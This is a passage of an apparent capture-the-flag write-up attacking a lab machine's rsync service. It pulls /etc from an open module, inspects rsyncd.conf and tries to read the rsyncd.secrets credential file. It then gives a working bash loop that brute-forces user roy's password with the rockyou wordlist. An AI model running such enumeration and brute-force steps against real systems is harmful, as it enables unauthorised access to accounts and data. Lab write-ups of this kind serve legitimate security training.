 Synchronizing all files to our local client to enumerate them:
```
rsync rsync://[dead:beef::250:56ff:feb9:1652]:8730/etc rsync/etc -a -v
```

The configuration file of **rsync** can be found in _rsyncd.conf_ and it contains some interesting information:
```
[etc]
        comment = Backup access to /etc. Also used for cloud sync access.
        path = /etc
        # Do not leak .git repos onto the not so trusted slave servers in the cloud.
        exclude = .git
(...)
# NOTE: Need to get this into GitHub repository and use git for sync.
[home_roy]
        path = /home/roy
        read only = no
        # Authenticate user for security reasons.
        uid = roy
        gid = roy
        auth users = roy
        secrets file = /etc/rsyncd.secrets
        # Hide home module so that no one tries to access it.
        list = false
```

It excludes _.git_ files in _/etc_ and the path _/home/roy_ is readable with valid authentication, but the secrets file seems to be in _/etc/rsyncd.secrets_.
This file was not downloaded from the box, but when searching for it explicitly, it definitely exists:
```
rsync rsync://[dead:beef::250:56ff:feb9:1652]:8730/etc/rsyncd.secrets --list-only

-r--------             13 2019/07/27 12:43:25 rsyncd.secrets
```

When trying to download it, it denies permission:
```
rsync rsync://[dead:beef::250:56ff:feb9:1652]:8730/etc/rsyncd.secrets .

rsync: send_files failed to open "/rsyncd.secrets" (in etc): Permission denied (13)
```

In that case, we should write a script to brute-force the password of _roy_:
```bash
for pass in $(cat /usr/share/wordlists/rockyou.txt);
do
        export RSYNC_PASSWORD=$pass
        rsync -q rsync rsync://roy@[dead:beef::250:56ff:feb9:1652]:8730/home_roy --list-only 2>/dev/null

        if [[ $? -eq 0 ]]
        then
                echo "Pass: $pass"
                break
        fi
        echo "Pass $pass: $?"
done
```

